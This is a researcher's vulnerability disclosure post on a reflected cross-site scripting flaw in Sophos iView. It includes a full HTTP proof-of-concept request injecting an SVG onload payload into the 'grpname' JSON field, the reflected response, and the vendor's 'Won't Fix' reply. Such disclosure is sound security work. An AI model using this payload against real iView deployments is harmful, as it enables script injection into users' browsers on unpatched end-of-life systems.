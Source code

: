 ```yaml
---
layout: post
title:  "Reflected Cross-Site scripting in Sophos iView"
date:   2023-04-30 19:51:02 +0700 
categories: [cve]
---
```


Vendor: Sophos

Product: Sophos iView (The EOL was December 31st 2020)

#### Product description:

Reflected XSS in the privileged user area, where i was able to set parameter 'json->"grpname"'s value to 'ww;</script>/</script/>/<svg/onload=alert('Sophos') width=100//>'

That successfully embedded a script in the response, which was executed when the page loads in the user's browser.

* CVE ID: awaiting
* CWE ID: CWE-79

#### #Proof of Concept

Reflected cross-site scripting (XSS) vulnerability was discovered in the product.

A cross-site scripting vulnerability was identified.

It was possible to inject malicious code, I've successfully embedded a script in the response, which allowed me to execute it when the page loaded in the browser.

The following Proof of Concept (PoC) demonstrates the attack as well as displaying evidence of the script payload being returned in the response. 

#### PoC:
{% highlight ruby %}
POST /iview
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko
Referer: https://10.0.0.112/webpages/index.jsp?empty=1_1&watermarkmsg=0
Cookie: JSESSIONID=189B80C28A886E98BBD17B7AEFF1B63C
Connection: Keep-Alive
Host: 10.0.0.112
X-Requested-With: XMLHttpRequest
Content-Length: 170
Cache-Control: no-cache
Accept: text/plain, */*; q=0.01
Accept-Language: en-US
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

mode=28&deviceprofile=123&json={"selecteddevices":"1","grpname":"ww;</script>/</script/>/<svg/onload=alert('Sophos') width=100//>","description":"www"}&__RequestType=ajax

HTTP/1.1 200 200
Connection: Keep-Alive
Server: xxxx
Content-Length: 173
X-Frame-Options: SAMEORIGIN
Keep-Alive: timeout=5, max=100
Cache-Control: max-age=2592000
Strict-Transport-Security: max-age=31536000; includeSubDomains
Date: Thu, 09 Jan 2020 14:54:39 GMT
Expires: Sat, 08 Feb 2020 14:54:39 GMT

{"reurl":"managedevicegroup.html?action=71020","message":"Device Group ww;<\/script>/<\/script/>/<svg/onload=alert('Sophos') width=100//> is already exists.","status":"500"}
{% endhighlight %}


Reply from Sophos via Bugcrowd:

"We are divesting the Sophos iView product, meaning that this particular vulnerability is accepted business risk. I will close this issue as Won't Fix"

#### References:
1. https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
2. https://www.firewalls.com/pub/media/wysiwyg/datasheets/Sophos/iView.pdf
3. https://vimeo.com/107872566
4. https://docs.sophos.com/nsg/sophos-iview/v03012/Help/en-us/webhelp/onlinehelp/index.html#page/onlinehelp/AccessDevice.html
